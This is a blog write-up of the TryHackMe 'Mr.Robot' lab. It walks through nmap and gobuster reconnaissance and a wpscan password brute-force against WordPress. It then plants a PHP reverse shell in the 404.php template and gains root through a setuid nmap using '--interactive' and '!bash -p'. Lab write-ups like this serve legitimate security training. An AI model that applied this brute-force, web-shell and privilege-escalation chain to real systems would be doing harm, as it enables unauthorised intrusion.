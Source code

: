 ```yaml
---
layout: post
title: tryhackme Mr.Robot write up
---
```


![mr.robot](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/cfa67a59a1a729fbcb5c3e6caa5554c41fcd6c1e/assets/thm/robot/mr_robot.jpg)

### about the machine

this is a medium rated box from [tryhackme](https://tryhackme.com), thought a little too easy if you asked me

### Reconnaissance

I added the box ip to my hosts file then a ran a quick nmap scan
```bash
# Nmap 7.91 scan initiated Wed Jan  6 22:39:07 2021 as: nmap -v -oN ports ctf.thm
Nmap scan report for ctf.thm (10.10.15.148)
Host is up (0.37s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Jan  6 22:39:26 2021 -- 1 IP address (1 host up) scanned in 19.88 seconds

```

### http enumeration

I visited both the `http` and the `https` and they seemed to have the same page, which is an interactive command line with couple defined commands, non of them were useful though
![command line](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/cfa67a59a1a729fbcb5c3e6caa5554c41fcd6c1e/assets/thm/robot/command_line.png)

visiting `robots.txt` I got the following result
```bash
User-agent: *
fsocity.dic
key-1-of-3.txt
```

looks like we found the first flag and what appreared to be very big a wordlist full of duplicated words

```bash
$ wget ctf.thm/fsocity.dic
--2021-01-06 22:56:37--  http://ctf.thm/fsocity.dic
Resolving ctf.thm (ctf.thm)... 10.10.28.187
Connecting to ctf.thm (ctf.thm)|10.10.28.187|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7245381 (6.9M) [text/x-c]
Saving to: ‘fsocity.dic’
858160 fsocity.dic

fsocity.dic         100%[================>]   6.91M   436KB/s    in 17s     

2021-01-06 22:57:01 (405 KB/s) - ‘fsocity.dic’ saved [7245381/7245381]
$ wc -l fsocity.dic
858160 fsocity.dic
$ cat fsocity.dic | sort -u > small.dict
$ wc -l small.dict
11451 small.dict
```

then I've ran some http files brutforce. turned out is website is running wordpress

```bash
$ ngobuster dir -u ctf.thm -w $RAFT -t 30 -o robot.raft
/license.txt (Status: 200)
/index.php (Status: 301)
/wp-login.php (Status: 200)
/wp-register.php (Status: 301)
/index.html (Status: 200)
```

I tried getting enumerating the users by visiting `ctf.thm/?author=id` but it didn't work, then I browsed to `wp-login.php` and since I this is a mr.robot themed box I tried the user name `elliot` and bingo, the user existed (if anyone knows another method for getting a user without guessing please let me know)

![found user elleiot](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/cfa67a59a1a729fbcb5c3e6caa5554c41fcd6c1e/assets/thm/robot/found_user.png)

I've tried bruteforcing the password using the wordlist I got earlier and I've got some creds

```bash
$ echo elliot > user.txt
$ wpscan --url ctf.thm -U user.txt -P small.dict
...
[!] Performing password attack on Xmlrpc Multicall against 1 user/s
[!] Valid Combinations Found:
 | Username: elliot, Password: REDACTED_PASSWORD
```
# aaand I'm in
![logged in](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/cfa67a59a1a729fbcb5c3e6caa5554c41fcd6c1e/assets/thm/robot/wp_loged_in.png)


from here, first thing I've done is browsing to `appearance -> editor` and I've edited the `404.php` template to include a php reverse shell I got from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![malicious 404.php](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/cfa67a59a1a729fbcb5c3e6caa5554c41fcd6c1e/assets/thm/robot/malicious_404.png)


then I browsed to `ctf.thm/jeff`, got a reverse connection, stabilized it then I began searching for the second flag

```bash
daemon@linux:~$ whoami
daemon
daemon@linux:~$ ls /home/
robot
daemon@linux:~$ cd /home/robot/
daemon@linux:/home/robot$ ls -lh
total 8.0K
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$
```

I found an md5-hashed `robot`'s creds, I got the original password by just copy/pasting the hash into google then I got the flag

### gaining root prileveges

the box had a really old version of `nmap` with a setuid bit set, old versions of nmap support the `--interactive` options, which lets you execute shell commands from an `nmap` prompts

```bash
daemon@linux:/home/robot$ find / -perm -u=s 2>/dev/null 
...
/usr/local/bin/nmap
...
^C
daemon@linux:/home/robot$ /usr/local/bin/nmap --version

nmap version 3.81 ( http://www.insecure.org/nmap/ )
daemon@linux:/home/robot$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !bash -p
bash-4.3# whoami
root
bash-4.3# cd /root
bash-4.3# ls -lh
total 4.0K
-rw-r--r-- 1 root root  0 Nov 13  2015 firstboot_done
-r-------- 1 root root 33 Nov 13  2015 key-3-of-3.txt
bash-4.3# touch key-3-of-3.txt
bash-4.3# 
```
